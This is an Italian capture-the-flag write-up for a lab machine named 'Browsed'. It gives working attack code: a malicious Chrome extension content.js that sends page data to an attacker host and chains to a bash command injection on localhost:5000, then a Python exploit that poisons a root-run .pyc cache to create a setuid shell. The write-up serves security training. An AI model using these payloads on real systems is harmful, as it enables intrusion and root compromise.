# Browsed

## Reconnaissance

Si lancia una prima scansione nmap per individuare le porte aperte esposte dalla macchina target.

```bash
$ TARGET=10.10.8.1
$ nmap -p- --min-rate 1000 -T4 $TARGET
```
```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

I servizi disponibili sulla macchina target sono:
- SSH sulla porta 22/TCP
- Web server HTTP sulla porta 80/TCP

Si raccolgono ulteriori informazioni sui servizi individuati:
```bash
$ nmap -p22,80 -sCV $TARGET 
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.14 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 02:c8:a4:ba:c5:ed:0b:13:ef:b7:e7:d7:ef:a2:9d:92 (ECDSA)
|_  256 53:ea:be:c7:07:05:9d:aa:9f:44:f8:bf:32:ed:5c:9a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-title: Browsed
|_http-server-header: nginx/1.24.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Le versioni dei servizi:
- OpenSSH 9.6p1
- NGINX 1.24.0

Si aggiorna il file /etc/hosts della macchina Kali per associare l'indirizzo IP della macchina target con il nome browsed.
```
$TARGET browsed
```

Dal browser si visita l'URL "http://browsed":

`index.html`










Dal codice sorgente si capisce che questa applicazione è costruita su un template di "html5up.net" di "@ajlkn" ed è presente del codice PHP, e questo fa pensare che il back end si basi proprio su questo linguaggio di programmazione.

Si aggiorna il file /etc/hosts aggiungendendo il nome browsed.htb:
```
$TARGET browsed browsed.htb
```

`view-source:index.html`



`samples.html`



Questa pagina permette di scaricare alcune risorse in formato ZIP. Si nota anche la presenza della cartella "/images".



`updload.php`



La web app fornisce la funzionalità di caricamento di un estensione Chrome compressa in un file ZIP ed inoltre permette anche di copiare il feedback dello "sviluppatore" che prova la nostra estensione.



## XXS via upload Chrome extension archive
Come primo tentativo si utilizza uno dei file ZIP scaricabili da **samples.html**, nello specifico si usa il file **replaceimages.zip**.



Dai logs restituiti sembra che si faccia uso di **chrome-for-testing**[https://googlechromelabs.github.io/chrome-for-testing/] e che le Security Policy siano assenti:

```
[1775:1787:0111/225645.594945:VERBOSE1:file_util_posix.cc(315)] Cannot stat "/var/www/.config/google-chrome-for-testing/Default/Policy/User Policy": No such file or directory (2)
```

Si modifica l'estensione caricata in modo da iniettare codice Javascript.



`malicious/content.js`

```js
// use an image of your liking !
// const replacementImageUrl = "Your favourite image here"
const replacementImageUrl = "http://10.10.15.X:9001/a.jpeg"

document.querySelectorAll('img').forEach(img => {
  img.src = replacementImageUrl;
  img.srcset = "";
});
```



Si lancia un listener in ascolto sulla porta 9001 della macchina Kali e si carica l'estensione modificata.



Funziona!

Si modifica l'exploit in modo da ottenere l'URL della pagina web utilizzata dallo "sviluppatore":

`malicious/content.js`

```js
const replacementImageUrl = "http://10.10.15.X:9001/" + document.URL;

document.querySelectorAll('img').forEach(img => {
  img.src = replacementImageUrl;
  img.srcset = "";
});
```



Il dominio **browsedinternals.htb** viene aggiunto nel file /etc/hosts.

```
10.10.8.1 browsed browsed.htb browsedinternals.ht
```

## Gitea
Si visita l'URL "http://browsedinternals.htb/":



`/explore/repos`



`/larry/MarkdownPreview`



`app.py`



E' il codice di un web server Flask in ascolto sulla porta **5000**. Tra i vari endpoint vi è **/routines/RID** che è di interesse dato che esegue un comando shell con l'input dell'utente.

`routines.sh`





Il parametro "$1" passato allo script Bash viene confrontato con diversi valori numeri.

Si può iniettare del codice sfruttando la **Bash command substitution** che viene eseguita prima del confronto con il valore numerico per risolvere, ad esempio, l'indice di un array:

```bash
if [[ arr[$(cmd)] -eq 0 ]]; then
```

## XSS + SSRF + RCE

`malicious/content.js`

```js
// URL_ENCODED("ping -c 1 $ATTACKER")
const cmd = "ping -c 1 10.10.15.X";
const replacementImageUrl = encodeURI("http://localhost:5000/routines/arr[$("+cmd+")]");

document.querySelectorAll('img').forEach(img => {
  img.src = replacementImageUrl;
  img.srcset = "";
});
```

Funziona!!!!

Si fa eseguire una reverse shell verso la macchina Kali e si ottiene l'accesso remoto come larry.



## Shell as larry



Si accede al contenuto del file **user.txt**.

## Privilege escalation



Si può eseguire il programma **extensiontool.py** con i privilegi di root.



La cartella **__pycache__** è **world writable** il che permette di memorizzare un file con qualsiasi privilegio.

`extension_tool.py`





Lo script utilizza il modulo **extension_utils.py**.

`extension_utils.py`



La cartella __pycache__ server per contenere gli script Python già compilati in modo da fare caching dei moduli utilizzati.

Infatti, eseguendo il tool e invocando una delle funzionalità del modulo extension_utils.py:



Il file .pyc viene aggiornato ogni qual volta lo script .py viene a sua modificato. L'aggiornamento si basa sul confronto del timecode memorizzato nel .pyc.

L'idea è di iniettare del codice nel modulo .pyc preservando il timecode dello stesso.

Si noti che questo è possibile dato la cartella __pycache__ viene pulita dopo un certo periodo (crontab) e che quindi è possibile scrivere il proprio modulo .pyc prima di una esecuzione del tool e sfruttare i privilegi di root.

### Exploitation

`exploit.py`

```python
import os
import marshal

target="/opt/extensiontool/__pycache__/extension_utils.cpython-312.pyc"

# 1. Read compiled module script file header (16 bytes) {magic bytes (4) + flags (4) + timestamp (4) + size (4)}
with open(target, "rb") as fpyc:
    header = fpyc.read(16)

# 2. Craft the payload
payload = 'import os; os.system("cp /bin/bash /tmp/.exploit/bash; chmod 6555 /tmp/.exploit/bash")'
bcode = compile(payload, 'extension_utils.py', 'exec');

# 3. Write a new pyc file 
while os.path.exists(target): # Wait until the file .pyc exist
    pass

with open(target, "wb") as f:
    f.write(header + marshal.dumps(bcode))
```

L'exploit copia l'header del modulo compilato .pyc e ne crea un altro con un diverso payload.

Si esegue l'exploit:



Si lancia il tool con i permessi di root in modo da fa eseguire il codice iniettato nel modulo.



Si ottiene una shell come root.

## Shell as root

Si ottiene l'accesso al file /root/root.txt

